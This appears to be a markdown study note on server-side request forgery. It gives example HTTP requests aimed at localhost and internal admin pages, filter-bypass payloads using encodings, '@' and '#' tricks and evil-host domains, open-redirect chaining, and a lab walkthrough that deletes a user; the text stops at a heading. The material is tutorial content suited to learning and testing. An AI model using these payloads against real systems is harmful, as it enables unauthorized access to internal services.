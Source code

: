 # SSRF

Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker’s choosing.

In typical SSRF examples, the attacker might cause the server to make a connection back to itself, or to other web-based services within the organization’s infrastructure, or to external third-party systems.

## common attacks

**SSRF attacks against the server itself** . This will typically involve supplying a URL with a hostname like 127.0.0.1 or localhost For example, consider a shopping application that lets the user view whether an item is in stock in a particular store. To provide the stock information, the application must query various back-end REST APIs, dependent on the product and store in question. The function is implemented by passing the URL to the relevant back-end API endpoint via a front-end HTTP request. So when a user views the stock status for an item, their browser makes a request like this:

```
 POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

This causes the server to make a request to the specified URL, retrieve the stock status, and return this to the user.

In this situation, an attacker can modify the request to specify a URL local to the server itself. For example:

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

Here, the server will fetch the contents of the /admin URL and return it to the user.

**SSRF attacks against other back-end systems**

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

## Circumventing common SSRF defenses

**SSRF with blacklist-based input filters** Some applications block input containing hostnames like 127.0.0.1 and localhost, or sensitive URLs like /admin. In this situation, you can often circumvent the filter using various techniques:

- Using an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
- Registering your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
- Obfuscating blocked strings using URL encoding or case variation.

**SSRF with whitelist-based input filters** Some applications only allow input that matches, begins with, or contains, a whitelist of permitted values. In this situation, you can sometimes circumvent the filter by exploiting inconsistencies in URL parsing.

- You can embed credentials in a URL before the hostname, using the @ character. For example: https://expected-host@evil-host.
- You can use the # character to indicate a URL fragment. For example: https://evil-host#expected-host.
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example: https://expected-host.evil-host.
- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
- You can use combinations of these techniques together.
    
    ```
    Change the URL to http://username@stock.weliketoshop.net/ and observe that this is accepted, indicating that the URL parser supports embedded credentials.
    Append a # to the username and observe that the URL is now rejected.
    Double-URL encode the # to %2523 and observe the extremely suspicious "Internal Server Error" response, indicating that the server may have attempted to connect to "username".
    Change the URL to http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos to access the admin interface and delete the target user.
    ```
    

**Bypassing SSRF filters via open redirection** It is sometimes possible to circumvent any kind of filter-based defenses by exploiting an open redirection vulnerability. Provided the API used to make the back-end HTTP request supports redirections, you can construct a URL that satisfies the filter and results in a redirected request to the desired back-end target. For example, suppose the application contains an open redirection vulnerability in which the following URL:

```
/product/nextProduct?currentProductId=6&path=http://evil-user.net

returns a redirection to:

http://evil-user.net
```

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

**blind ssrf** Blind SSRF vulnerabilities arise when an application can be induced to issue a back-end HTTP request to a supplied URL, but the response from the back-end request is not returned in the application’s front-end response.

Blind SSRF is generally harder to exploit but can sometimes lead to full remote code execution on the server or other back-end components.

The most reliable way to detect blind SSRF vulnerabilities is using out-of-band (OAST) techniques. This involves attempting to trigger an HTTP request to an external system that you control, and monitoring for network interactions with that system.

**SSRF via the Referer header**
